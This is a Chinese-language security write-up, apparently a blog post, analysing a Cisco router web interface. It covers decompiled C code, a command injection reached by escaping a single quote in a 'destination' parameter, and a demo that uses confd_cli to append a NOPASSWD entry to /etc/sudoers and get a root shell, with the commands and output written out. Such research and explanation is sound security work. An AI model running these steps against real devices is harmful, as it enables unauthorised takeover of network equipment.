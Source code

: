 ```c
  json_object_object_add(v8, "fileType", v17);
  json_object_object_add(v8, "source", v10);
  v18 = StrBufToStr(v24);
  v19 = json_object_new_string(v18);
  json_object_object_add(v10, "location-url", v19);
  json_object_object_add(v8, "destination", v11);
  v20 = json_object_new_string(a1);
  json_object_object_add(v11, "firmware-state", v20);
  json_object_object_add(v8, "firmware-option", v23);
  v21 = json_object_new_string(a3);
  json_object_object_add(v23, "reboot-type", v21);
  StrBufFree(&v24);
  return v7;
}
```

返回值为v7，根据a1创建对象，然后添加jsonrpc，添加method，添加params最后返回v7，简而言之，就是在第一个参数的基础上在后面拼接若干东西，形成一个json对象，在后续的`json_object_to_json_string(v14);`函数中转化该对象为string，然后传入command执行。

所以我们只需要构造一个逃逸单引号的destination就可以了。（`sub_117E0`函数的第一个参数是destination）

总结起来，rce的条件就是：

1. 各类参数齐全，filename符合格式
2. 任意文件移动必须返回0，即filename不含有特殊字符，filepath是合法路径
3. destination闭合单引号  
    利用起来也不是特别困难


提权  
提权利用上也有很多漏洞，这里选择的是其中的confd指令提权，利用通过`confd`以特权运行的 Cisco `root`，获得系统执行root命令的权限，主要是利用Web UI 通过本地绑定的套接字与 confd 服务器进行通信。

> It is also possible to communicate with `confd` and issue commands using the userspace application `confd_cli`. During our research, we noticed that the confd daemon provides commands to read and write files with the `file show` and `append` commands.  
> confd本身就提供了读写文件的操作，下面是在某博客看到的一个提权demo。

```shell
$ echo 'www-data ALL=(ALL) NOPASSWD: ALL' > /tmp/www-data-sudo
$ /usr/bin/confd_cli -U 0 -G 0 -u root -g root
root connected from 127.0.0.1 using console on cisco-router91D57F
root@cisco-router91D57F> file show /tmp/www-data-sudo | append /etc/sudoers
file show /tmp/www-data-sudo | append /etc/sudoers
[ok][2021-10-11 09:43:01]
root@router91D57F> exit
exit
$ sudo /bin/sh
sudo /bin/sh
BusyBox v1.23.2 (2021-06-14 02:21:16 IST) built-in shell (ash)
# id
id
uid=0(root) gid=0(root) groups=0(root)
```
